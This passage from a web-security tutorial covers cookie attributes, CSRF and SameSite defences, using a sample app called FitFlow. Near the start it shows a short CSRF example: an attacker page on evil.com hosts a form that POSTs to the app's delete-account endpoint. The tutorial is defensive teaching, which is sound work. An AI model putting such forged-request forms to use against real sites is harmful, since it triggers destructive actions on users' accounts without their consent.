fitflow.com
```

Your browser has

```
accessToken=abc123
```

Now you visit

```
evil.com
```

The attacker creates

```html
<form action="https://fitflow.com/delete-account" method="POST">

<input type="submit">

</form>
```

When you click,

your browser automatically sends

```http
Cookie:
accessToken=abc123
```

because it belongs to fitflow.com.

FitFlow thinks

```
This is Aditya.
```

But actually,

the request was initiated by another website.

---

# CSRF Diagram

```mermaid
sequenceDiagram

User->>evil.com: Visit Website

evil.com->>Browser: Hidden Form

Browser->>fitflow.com: POST /delete-account

Note Right of Browser

Cookie Automatically Attached

end note

fitflow.com-->>Browser: Account Deleted
```

---

# How SameSite Helps

Suppose the cookie has

```http
SameSite=Strict
```

Now

```
evil.com
```

tries to send the request.

Browser checks

```
Same Site?

↓

NO
```

Browser decides

```
Do NOT attach Cookie
```

FitFlow receives

```
No Cookie
```

User is not authenticated.

Attack fails.

---

# Browser Decision Tree

```mermaid
flowchart TD

Request

↓

Cross Site?

↓

Yes

↓

SameSite=Strict?

↓

Yes

↓

Do Not Send Cookie

↓

Attack Prevented

No

↓

Send Cookie
```

---

# HttpOnly vs SameSite

This is an interview favorite.

| Feature | HttpOnly | SameSite |
|----------|-----------|-----------|
| Stops JavaScript Reading | ✅ | ❌ |
| Stops CSRF | ❌ | ✅ |
| Stops XSS Cookie Theft | ✅ | ❌ |
| Browser Enforced | ✅ | ✅ |

Remember

They solve different problems.

---

# Secure Cookie Example

Imagine

```
http://fitflow.com
```

Browser has

```
Secure
```

Browser checks

```
HTTPS?

↓

NO
```

Result

```
Cookie NOT Sent
```

Now

```
https://fitflow.com
```

Browser checks

```
HTTPS?

↓

YES

↓

Send Cookie
```

---

# Complete Authentication Flow

```mermaid
flowchart TD

Login

↓

Express

↓

Generate JWT

↓

Set-Cookie

↓

Browser Storage

↓

Future Request

↓

Cookie Header

↓

verifyJWT Middleware

↓

Authenticated User

↓

Protected Route
```

---

# Cookie Security Checklist

Whenever you implement authentication, verify:

✅ HttpOnly enabled

✅ Secure enabled

✅ SameSite configured

✅ HTTPS enabled

✅ Cookie expiry configured

✅ JWT expiration configured

✅ Logout clears cookie

---

# Logout

Logging out is simply clearing the cookie.

Express

```javascript
res.clearCookie("accessToken");
```

Browser removes it.

Future requests

```
No Cookie
```

Server cannot authenticate the user.

---

# Browser Responsibilities

The browser automatically

✔ Stores Cookies

✔ Deletes Expired Cookies

✔ Matches Domains

✔ Matches Paths

✔ Applies HttpOnly

✔ Applies Secure

✔ Applies SameSite

✔ Sends Cookies

Notice

The browser performs all these actions.

React never does.

---

# Application Security Perspective

When reviewing authentication,

an AppSec Engineer asks:

- Is the cookie HttpOnly?
- Is Secure enabled?
- Is SameSite correct?
- Can XSS steal the cookie?
- Can CSRF abuse the cookie?
- Is logout complete?
- Is cookie lifetime reasonable?
- Are refresh tokens protected?

Authentication is not just "JWT works."

It is the combination of

- Browser
- HTTP
- Cookies
- HTTPS
- Sessions/JWT
- Middleware
- Security Attributes

---

# Common Mistakes

❌ Cookies are encrypted.

Wrong.

Cookies are plain text unless the value itself (such as a JWT) is encrypted or signed.

---

❌ HttpOnly encrypts cookies.

Wrong.

HttpOnly only blocks JavaScript access.

---

❌ SameSite blocks every CSRF attack.

Wrong.

It significantly reduces CSRF risk but should be combined with CSRF tokens and proper validation where appropriate.

---

❌ JWT stored in localStorage is safer than HttpOnly Cookies.

Generally false.

HttpOnly cookies reduce the risk of token theft through XSS because JavaScript cannot read them.

---

# Interview Questions

## Q1

Who stores cookies?

Browser.

---

## Q2

Who sends cookies?

Browser.

---

## Q3

Who creates cookies?

Server using Set-Cookie.

---

## Q4

What does HttpOnly prevent?

JavaScript from reading cookies.

---

## Q5

What does Secure do?

Only sends cookies over HTTPS.

---

## Q6

What does SameSite do?

Controls whether cookies are sent on cross-site requests to reduce CSRF risk.

---

## Q7

Does HttpOnly stop CSRF?

No.

The browser still sends HttpOnly cookies automatically.

---

## Q8

Can XSS steal an HttpOnly cookie?

No.

JavaScript cannot read it.

---

## Q9

Where is the Cookie header created?

By the browser before sending the HTTP request.

---

# Cookie Revision Cheat Sheet

```text
Server
   │
   │ Set-Cookie
   ▼
Browser Stores Cookie
   │
   ▼
Future Request
   │
   ▼
Browser Checks
   ├── Domain
   ├── Path
   ├── Expiry
   ├── Secure
   ├── SameSite
   └── HttpOnly (for JS access only)
   │
   ▼
Attach Cookie Header
   │
   ▼
Express Backend
   │
   ▼
verifyJWT / Session Validation
   │
   ▼
Authenticated User
```

---

# Summary

✔ Cookies are browser storage.

✔ Server creates cookies using **Set-Cookie**.

✔ Browser stores cookies.

✔ Browser automatically sends **Cookie** headers.

✔ HttpOnly blocks JavaScript access.

✔ Secure restricts cookies to HTTPS.

✔ SameSite helps reduce CSRF attacks.

✔ Cookies are commonly used to store Session IDs and JWTs.

✔ The browser—not React or Express—enforces cookie rules.

---

# Hands-on Exercise

Using your **FitFlow** application:

1. Open **DevTools → Application → Cookies** and inspect your authentication cookie.
2. Verify whether it has:
   - `HttpOnly`
   - `Secure`
   - `SameSite`
   - `Expires` or `Max-Age`
3. Open **Network → /profile** and confirm that the browser automatically includes the `Cookie` header.
4. Try to access `document.cookie` in the browser console.
5. Observe how the behavior changes if the cookie is `HttpOnly`.

Think about **why** each attribute exists, not just **what** it does.